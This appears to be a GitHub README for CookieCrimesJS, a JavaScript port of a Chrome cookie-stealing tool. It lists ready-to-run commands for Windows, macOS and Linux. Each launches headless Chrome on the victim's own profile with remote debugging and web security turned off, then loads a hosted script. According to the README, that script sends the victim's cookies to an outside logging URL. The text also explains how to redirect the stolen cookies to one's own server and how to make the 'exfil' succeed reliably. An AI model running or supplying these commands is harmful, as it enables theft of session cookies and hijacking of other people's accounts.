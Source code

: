 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output (your sensitve cookies) to my own loggly.com URL. You should host it on your own server and modify the location where the cookies get sent.

Thank you to @shellsterdude for introducing me to cookie_crimes and for the hints, tips and help testing he gave along the way.

Note: Running this command leaves a headless browser behind, causing non-deterministic results if you run it again. You should kill the chrome processes associated with the headless browser or restart the OS before running this command a second time to guarantee your successfull exfil of cookies.

# Windows

## Windows 10

### 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

### 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```

# Linux

```google-chrome --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/CookieCrimesJS/```
